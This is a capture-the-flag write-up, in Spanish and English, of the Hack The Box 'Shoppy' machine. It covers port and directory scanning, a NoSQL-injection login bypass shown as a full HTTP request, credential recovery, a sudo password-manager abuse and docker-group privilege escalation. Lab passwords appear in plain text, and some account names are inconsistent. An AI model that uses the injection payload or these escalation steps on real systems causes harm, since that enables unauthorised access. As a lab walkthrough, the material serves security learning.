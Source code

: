 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Servidor Web

Ahora tenemos que ir al sitio web y enumerar con fuff.

`http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Nice! We have found a login page on `http://shoppy.htb/login`. To login, we need valid credentials. We do not currently have those credentials. Also, the location `http://shoppy.htb/exports` is interessting, but we cannot extract any information from this URL right now, maybe later on in this machine.



## Acceder

### Access as admin webportal

If we are using a single quote (`'`) in the username field, we receive a `504 Gateway Time-out`. We have our first error message. We need to perform some more enumeration. This part of the machine, was the most confusing part of this box. It took me some time to find out how to get a foothold on this machine.

The error message shows the URL `http://shoppy.htb/login?error=WrongCredentials`

Let’s try various payloads in the login form. After a long time of trying, we are able to find the right payload to bypass the login mechanism through BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=toto

```

After logging in, we are redirected to `http://shoppy.htb/admin`

From this page, we can search for users. We can search for the user `admin`, and received the password for this user account. We’ve tried to crack this password, but it seems it is uncrackable. After filling in the payload `'||'1==1//` in the search bar (payload always trye), it shows all existing user accounts in the databse.

Let’s try to crack the password of the useraccount `john`.

We have found the password `remembermethisway`. With this password I’ve tried to login through SSH with this password, but no luck. After enumerating around, we found an extra sub-domain `http://mattermost.shoppy.htb`, using `ffuf`.

We cannot now login with the user `josh` with the cracked password.

After looking around, we find the credentials for the user account `jaeger` with the password `Sh0ppyBest@pp!`.

## SSH access as jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

With this user account, we can access the machine through SSH and grab the user flag.

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

### Move from jaeger to deploy

This user account has the permission to run `/home/deploy/password-manager` on behalf of the user account `deploy`.

After executing this program, it’s asking for a master password. As we are able to run the program, we can also try to read the program.

It seems that the password is: `Sample`.

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Yes! We have now the credentials for the user account `deploy`. We can switch to this user account and run `linpeas.sh`.

## Exploit docker <a href="#exploit-docker" id="exploit-docker"></a>

The user account `deploy` is in the `docker` group. Through [GTFObins](https://gtfobins.github.io/gtfobins/docker/) we can find the path to privilege escalation.

Thanks for reading this write-up! Did you enjoy reading this write-up? Or learned something from it? Please consider spending a respect point: [https://app.hackthebox.com/profile/224856.com/profile/224856](https://app.hackthebox.com/profile/224856.com/profile/224856). Thanks!
